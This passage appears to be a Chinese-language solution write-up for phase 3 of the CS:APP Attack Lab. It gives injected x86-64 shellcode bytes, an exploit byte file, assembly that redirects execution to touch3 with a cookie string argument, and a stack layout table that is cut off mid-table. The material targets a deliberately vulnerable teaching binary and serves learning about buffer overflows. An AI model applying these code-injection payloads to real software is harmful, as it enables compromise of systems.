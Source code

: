 
因此编写 exploit.131.txt：

```txt
48 83 ec 40 c7 44 24 38
fa 18 40 00 c7 44 24 04
35 39 62 39 c7 44 24 08
39 37 66 61 48 8d 7c 24
04 48 83 c4 38 c3 00 00
78 dc 61 55 00 00 00 00 /* 0x5561cd78 <injected code> */
```



##### 方法二：将 cookie 字符串存储在 [0x5561dca8, ...)

通过 buf 的缓冲区溢出，直接将 cookie 字符串存储在 [0x5561dca8, 0x5561dcaf]，并保证 0x5561dcb0 字节是 0。

编写 injected code 的指令 inst.132.s：

```assembly
pushq   $0x4018fa               # 压入 touch3 的起始地址
movq    $0x5561dca8,%rdi        # 设置 touch3 的参数 sval 指向 cookie 的字符串表示
retq                            # 弹出 touch3 的起始地址赋值给 PC
```

查看上述指令的字节序列：68 fa 18 40 00 48 c7 c7 a8 dc 61 55 c3。

<img src="https://gitee.com/dq-agj/imags/raw/master/img/image-20230817213751929.png" alt="image-20230817213751929" style="zoom:80%;" />

getbuf 返回前应该达到的栈空间状态如下：

<table border="1" style="width:30%; text-align:center; margin:auto">
    <tr height="40">
        <td><b>栈</b></td>
        <td colspan="2"><b>栈地址</b></td>
    </tr>
    <tr height="40">
        <td colspan="2">0</td>
        <td>0x5561dcb0</td>
    </tr>
    <tr height="40">
        <td colspan="2">0x6166373939623935</td>
        <td>0x5561dca8</td>
    </tr>
    <tr height="40">
        <td colspan="2">0x5561dc78</td>
        <td>0x5561dca0</td>
    </tr>
    <tr height="40">
        <td colspan="2">0</td>
        <td>0x5561dc98</td>
    </tr>
    <tr height="40">
        <td colspan="2">0</td>
        <td>0x5561dc90</td>
    </tr>
    <tr height="40">
        <td colspan="2">0</td>
        <td>0x5561dc88</td>
    </tr>
    <tr height="40">
        <td colspan="2">0xc35561dca8</td>
        <td>0x5561dc80</td>
    </tr>
    <tr height="40">
        <td colspan="2">0xc7c748004018fa68</td>
        <td>0x5561dc78=%rsp</td>
    </tr>
